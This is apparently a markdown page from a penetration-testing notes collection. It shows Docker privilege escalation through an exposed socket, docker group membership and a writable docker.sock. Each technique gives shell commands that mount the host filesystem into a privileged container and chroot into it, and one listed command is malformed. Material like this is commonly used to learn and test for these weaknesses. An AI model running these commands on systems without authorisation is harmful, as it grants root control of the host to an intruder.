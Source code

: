 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Docker is a tool designed to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all parts needed, such as libraries and dependencies.

### **Docker Shared Directories**

Shared directories (volume mounts) between the host system and Docker containers can be exploited if improperly configured. If sensitive files are shared with the container, they can be accessed and used for escalation.

1.  Check if the Docker socket is exposed.  
    `hackfast@ubuntu:/# ls -l /var/run/docker.sock`  

    ![](../../../img/Linux-Environment/92.png)

2.  Use the docker image to list all running containers.  
    `hackfast@ubuntu:/# docker image ls ps`  
    
    ![](../../../img/Linux-Environment/93.png)

3.  Start a new privileged container with access to the host filesystem.  
    `hackfast@ubuntu:/# docker -H unix:///var/run/docker.sock run --rm -it --privileged -v /:/host ubuntu chroot /host`  
    
    ![](../../../img/Linux-Environment/94.png)

### **Docker Group Membership**

If a user is a member of the docker group, they can effectively run commands as root because Docker daemon commands have root privileges.

1.  Verify if the current user is in the docker group.  
    `hackfast@ubuntu:~$ id`  
    
    ![](../../../img/Linux-Environment/95.png)
    
2.  Use Docker to start a container with access to the host filesystem.  
    `hackfast@ubuntu:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt /bin/bash`  
    
    ![](../../../img/Linux-Environment/96.png)
    

### **Writable Docker Socket**

A writable Docker socket (/var/run/docker.sock) can allow users to run Docker commands as root, leading to full control over the host system.

1.  Verify if the Docker socket is writable.  
    `hackfast@ubuntu:~$ ls -l /var/run/docker.sock`  
    
    ![](../../../img/Linux-Environment/97.png)
    
2.  Use the writable Docker socket to start a new container with access to the host filesystem.  
    `hackfast@ubuntu:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt /bin/bash`  
    
    ![](../../../img/Linux-Environment/98.png)